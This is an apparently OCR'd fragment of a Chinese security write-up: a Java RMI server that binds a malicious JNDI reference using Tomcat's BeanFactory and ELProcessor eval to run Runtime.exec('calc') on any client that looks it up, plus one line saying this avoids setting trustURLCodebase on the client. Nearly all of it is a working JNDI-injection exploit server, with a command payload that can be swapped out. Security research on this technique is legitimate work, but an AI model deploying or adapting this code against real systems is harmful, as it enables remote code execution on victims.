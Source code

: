 ```java
package com.armandhe.jnditest;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.StringRefAddr;
import java.net.MalformedURLException;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Server {
    public static void main(String[] args) throws RemoteException, NamingException, MalformedURLException, AlreadyBoundException {
        Registry registry = LocateRegistry.createRegistry(1099);
        ResourceRef resourceRef = new ResourceRef("javax.el.ELProcessor", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        resourceRef.add(new StringRefAddr("forceString", "a=eval"));
        resourceRef.add(new StringRefAddr("a", "Runtime.getRuntime().exec(\"calc\")"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(resourceRef);
        registry.bind("el", referenceWrapper);
        System.out.println("rmi://127.0.0.1/el is working");
    }
}


```
这样就不需要在客户端设置`System.setProperty(“com.sun.jndi.rmi.object.trustURLCodebase”, “true”);`了





















